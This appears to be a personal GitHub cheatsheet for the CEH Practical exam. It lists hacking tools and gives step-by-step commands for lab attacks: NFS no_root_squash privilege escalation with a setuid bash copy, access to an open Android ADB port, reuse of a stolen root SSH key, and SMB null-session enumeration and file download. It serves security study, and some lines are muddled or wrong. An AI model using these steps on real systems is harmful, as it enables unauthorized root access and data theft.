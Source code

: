 # CEH_PRACTICAL
This my cheatsheet that i used to study for CEH_PRACTICAL
Tools
1.	Nmap/Zenmap
2.	Wireshark
3.	Metasploit
4.	Hydra
5.	Cryptool / BCTextEncoder
6.	Veracrypt
7.	Burp suite
8.	Hydra
9.	Hashes.com/HashMyfiles/HashCalc
10.	Snow steganography/OpenStego/Covert TCP
11.	SQL Injection / nslookup/sqlmap/nikto
12.	Android Debugging Bridge (adb)
# PRACTICAL TIME
https://github.com/dhabaleshwar/CEHPractical/blob/main/Everything%20You%20Need.md
https://github.com/CyberHackPr/CEH_PRACTICAL/pulls Click Here for Notes


**xfreerdp /u:[username] /p:[password] /v:[ip_address]** 



RoadMap
1,2,8,11,12,16,17,18,20,7 (10 marks)  10,19,4,5,15,14,13,6,3,9  

**Priviledge Escalation**
**Misconfigured nfs shares**
**Victim machine log in to target or ssh into it**
1. root@ubuntu:~# Sudo apt-get update
2. root@ubuntu:~# Sudo apt install nfs-kernel-server
3. root@ubuntu:~# sudo nano etc/exports 
>> This is what you add the entry inside the exports file:  /home   *(rw,no_root_squash)
4. root@ubuntu:~# sudo /etc/init.d/nfs-kernel-server restart (you have to restart the server)
5. root@ubuntu:~#
**Attacker machine**
You should see port 2049 open after scanning 
1. attacker@parrot:~#sudo nmap -sV [IP]
2. Do this manually nfs enumerate 
3. attacker@parrot:~# apt-get install nfs-common 
4. attacker@parrot:~#showmount -e [IP Addrr]) or attacker@parrot:~#sudo nmap -sV --script=nfs-showmount [victim IP]
5. attacker@parrot:~#mkdir  /tmp/nfs
6. attacker@parrot:~#sudo mount -t nfs [IP]:/home  /tmp/nfs
7. attacker@parrot:~#cd  /tmp/nfs
8. attacker@parrot:~#sudo cp /bin/bash .
9. attacker@parrot:~#sudo chmod +s bash
10. attacker@parrot:~#ls -la bash (you can see all the privileges) 
11. ttacker@parrot:~#ssh ubuntu@[IP] (now we can ssh into our target machine) 
12. attacker@parrot:~#cd /home
13. attacker@parrot:~#ls -la
14. attacker@parrot:~#./bash -p 
15. id
16. whoami

Priviledge Escalation 2
Exploiting misconfigured NFS (port 2049)
1.	nmap -sV —p 2049 IP/Subnet
2.	sudo apt-get install nfs-common
3.	nmap -sV —script=nfs-showmount <Target_IP>
4.	check available mounts: showmount -e <Target_IP> -> we will see /home directory
5.	mkdir /tmp/nfs
6.	sudo mount -t nfs 10.10.1.9:/home /tmp/nfs
7.	cd /tmp/nfs
8.	sudo cp /bin/bash .
9.	sudo chmod +s bash -> it will be highlighted in red
10.	ls -la
11.	sudo df -h
12.	sudo chmod +s bash
after them, In another terminal:
	1. Access to target using SSH
	2. ./bash -p and we're root!
	3. cd /home
	4. ls -la
	5. Find the flag: find / -name "*.txt" -ls 2> /dev/null



**ADB Android Hacking** 
Perform deep scan on the elf files and obtain the last 4 digits of SHA 384 hash of the file with highest entropy value locate into android folder
1.	Scan adb port: nmap ip -sV -p 5555
2.	Connect adb: adb connect IP:5555
3.	Access mobile device: adb shell
4.	Elevate privilege using: sudo -i (if it is possile)
5.	pwd --> ls --> cd sdcard/Notifications/Scan --> ls --> cat secret.txt (If you can't find, check in others folders)
6.	Download files: adb pull /sdcard/Notifications/Scan Do it in another shell, without adb connection!
7.	We've three elf files, now we need to calculate entropy for each of them using this command: ent file.elf
8.	After selecting file.elf with highest entropy, we need to calculate hash of SHA 384: sha384sum file.elf and consider only the last 4 digits of the hash result.

Vertical Privilege escalation 
1. ssh smith@Ip –p 1337
2. sudo -L to check on users
3. cd /root then ls to see the .txt file, try to cat the file but permission is denied
4. then find the .ssh file 
5. then you cat id_rsa file key. Copy the key from beginning to end then nano id_rsa and paste the key
6. chmod 600 id_rsa  this give it root privileges 
7. as you are logged ,ssh root@ipaddrr –p 1336 –I id_rsa then you will have performed a vertical privilege escalation 

SMB Connection
1. smbclient -L <TARGET_IP> -N
2. smbclient -L <TARGET_IP> -U <USER>
3. smbclient //<TARGET_IP>/<USER> -U <USER>
4. smbclient //<TARGET_IP>/admin -U admin
5. smbclient //<TARGET_IP>/public -N #NULL Session
## SMBCLIENT
1. smbclient //<TARGET_IP>/share_name
2. help
3. ls
4. get <filename>

smbmap -u <USER> -p '<PW>' -H <TARGET_IP> --download 'C$\flag.txt'
